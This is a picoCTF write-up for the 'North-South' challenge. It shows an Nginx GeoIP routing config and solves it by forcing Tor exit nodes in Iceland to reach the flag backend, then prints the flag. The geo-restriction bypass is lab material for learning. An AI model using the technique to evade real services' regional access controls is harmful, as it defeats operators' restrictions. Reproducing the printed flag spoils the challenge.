

## Introduction

The *North-South* challenge demonstrates a common real-world security mechanism: **geo-based access control**. The application routes users to different backend services depending on their geographic location, determined via IP-based GeoIP lookup.

The objective is to bypass this restriction and access the backend server that exposes the flag.



---

## Challenge Analysis

The provided Nginx configuration is the key to understanding the challenge:

```nginx
load_module /usr/lib/nginx/modules/ngx_http_geoip2_module.so;

worker_processes 1;
events { worker_connections 1024; }

http {
    include       mime.types;
    default_type  application/octet-stream;

    geoip2 /etc/nginx/GeoLite2-Country.mmdb {
        auto_reload 5m;
        $geoip2_data_country_code default=ZZ country iso_code;
    }

    upstream north {
        server 127.0.0.1:8000;
    }

    upstream south {
        server 127.0.0.1:9000;
    }

    server {
        listen 80;

        location / {
            if ($geoip2_data_country_code = IS) {
                proxy_pass http://south;
            }

            proxy_pass http://north;
        }
    }
}
```

### Key Observations

* Requests are routed based on the **country code** derived from the client IP.
* Only users from **Iceland (`IS`)** are routed to the `south` backend.
* All other users are routed to the `north` backend, which does not contain the flag.

---

## Initial Testing

A standard request confirms that we are not routed to the flag server:

```bash
curl http://lonely-island.picoctf.net:64098/
```

### Response:

```html
<h1>Welcome!!</h1>
<p>No flag in this region!</p>
```

This indicates that our request is being handled by the `north` backend.

---

## Exploitation Strategy

To access the flag, we must ensure that our request appears to originate from Iceland. Since the server relies on IP-based GeoIP lookup, we need to route our traffic through an Iceland-based IP address.

The most practical approach is to use **Tor with a constrained exit node**.

---

## Configuring Tor

### Step 1: Modify Tor Configuration

Edit the Tor configuration file:

```bash
sudo nano /etc/tor/torrc
```

Add the following lines:

```bash
SocksPort 9050
ExitNodes {IS}
StrictNodes 1
```

This forces Tor to use exit nodes located in Iceland.

---

### Step 2: Start the Correct Tor Service

On Kali Linux, the default `tor.service` is not the actual running instance. Instead, use:

```bash
sudo systemctl start tor@default
```

---

### Step 3: Verify Tor Status

```bash
sudo systemctl status tor@default
```

Ensure the service is running and fully bootstrapped:

```
Active: active (running)
Bootstrapped 100% (done)
```

---

## Verifying Exit Node Location

To confirm that traffic is routed through Iceland:

```bash
curl --socks5-hostname 127.0.0.1:9050 https://ipinfo.io
```

### Expected Output:

```json
{
  "ip": "82.221.131.71",
  "city": "Reykjavík",
  "country": "IS"
}
```

If the country is not `IS`, restart Tor and retry until an Iceland exit node is obtained.

---

## Accessing the Flag

Once the exit node is confirmed to be Iceland, send the request through Tor:

```bash
curl --socks5-hostname 127.0.0.1:9050 \
http://lonely-island.picoctf.net:64813/
```

---

## Result

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8" />
        <title>
North-South
</title>
        <link rel="stylesheet" type="text/css" href="/static/css/materialize.min.css" />
        <link href="https://fonts.googleapis.com/icon?family=Material+Icons" rel="stylesheet">
    </head>

    <body>
        <nav>
            <div class="nav-wrapper">
                <a href="/" class="brand-logo">Home</a>
            </div>
        </nav>

        <div class="container">
            
                
            
            
<h1>Welcome!!</h1>
<p>picoCTF{g30_b453d_r0u71n9_ac6ed215}</p>

            <hr/>
        </div>

        <script src="/static/js/materialize.min.js"></script>
    </body>
</html>  
```

---

## Flag

```
picoCTF{g30_b453d_r0u71n9_ac6ed215}
```

---
